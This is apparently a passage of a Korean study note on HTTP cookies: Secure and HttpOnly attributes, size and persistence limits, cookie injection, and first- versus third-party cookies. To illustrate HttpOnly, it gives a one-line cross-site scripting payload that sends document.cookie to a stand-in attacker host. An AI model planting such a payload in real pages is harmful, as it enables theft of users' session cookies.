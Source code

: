 **Secure**

이 옵션이 설정된 쿠키들은 서버에서 SSL을 사용하며 HTTPS프로토콜을 사용할 때만 전송됩니다.

**HttpOnly**

사용자의 쿠키를 보호하기 위해 설정하는 옵션입니다.

예를 들어, 해커는 다음과 같은 코드를 통해 사용자의 쿠키를 가로챌 수 있습니다.

```js
location.href = 'https://😈.com?cookies=' + document.cookie
```

게시판이나 메일을 통해 이런 코드를 담은 게시물을 올리고, 사용자가 클릭한 경우 사용자의 쿠키는 모두 😈사이트로 전송됩니다.

이러한 CSS(Cross-Site Scripting)공격을 방어하기 위해 document.cookie를 이용해 쿠키에 접근할 수 없도록 하는 옵션입니다.

## 주의사항

쿠키는 편리한 기능이지만, 몇 가지 제약이 있기 때문에 주의해서 사용해야 합니다.

### 영속성

우선 영속성 문제가 있습니다. 쿠키는 어떤 상황에서도 확실하게 저장되는 것은 아닙니다. 시크릿 모드 혹은 브라우저의 보안 설정에 따라 세션이 끝나면 쿠키를 보관하라는 서버의 요청을 무시하기도 합니다. 따라서, **사라져도 문제 없는 정보나 서버 정보로 복원할 수 있는 자료**를 저장하는 용도로 적합합니다.

### 용량

쿠키의 최대 크기는 4KB로 정해져 있습니다. 쿠키에 많은 데이터를 담을 수 없고, 항상 통신에 부가되므로 통신량이 늘어나는데, 통신량 증가는 요청과 응답속도에 모두 영향을 미칩니다.

### 보안

마지막은 보안 문제입니다. `secure` 속성을 부여하면 HTTPS프로토콜로 암호화된 통신에서만 쿠키가 전송되지만, HTTP통신에서는 쿠키가 평문으로 전송됩니다. 따라서 비밀번호 등을 저장하면 안 되며, 암호화되더라도 사용자가 자유롭게 접근할 수 있으므로 조작위험이 있습니다.

### 쿠키 인젝션

쿠키 인젝션은 쿠키의 사양을 역으로 취한 방법으로 HTTPS연결을 우회할 수 있습니다. HTTPS로 은닉된 도메인(ex:*example.com*)의 쿠키에 대해 HTTP가 아닌 다른 하위 도메인(ex: *subdomain.example.com*)으로부터 덮어쓰거나, 상세한 쿠키를 설정함으로써(ex: *example.com/someapp*) 원래 HTTPS로 지정된 도메인의 쿠키를 무효로 하는 것입니다.

2017년 3월, 크롬 및 파이어폭스는 쿠키 인젝션에 대한 [대책](https://www.chromestatus.com/feature/4506322921848832)을 발표했습니다.

서브 도메인에서 재구성할 수 없게 되었고, 동일한 도메인이라도 secure가 붙은 쿠키는 HTTP에서 덮어쓸 수 없습니다.

## First Party, Third Party

First Party쿠키는 브라우저가 액세스한 서비스가 해당 서비스 내에서만 유효한 쿠키를 써넣는 것입니다. 반면, Third Party쿠키는 광고 등의 용도로 외부 서비스에서 읽을 수 있는 쿠키를 삽입해 사이트를 넘어서 행동 추적을 가능하게 해주는 쿠키입니다.

Third Party쿠키는 액세스한 사이트(origin.com)와 다른 사이트(ad-tech.com)의 쿠키입니다.
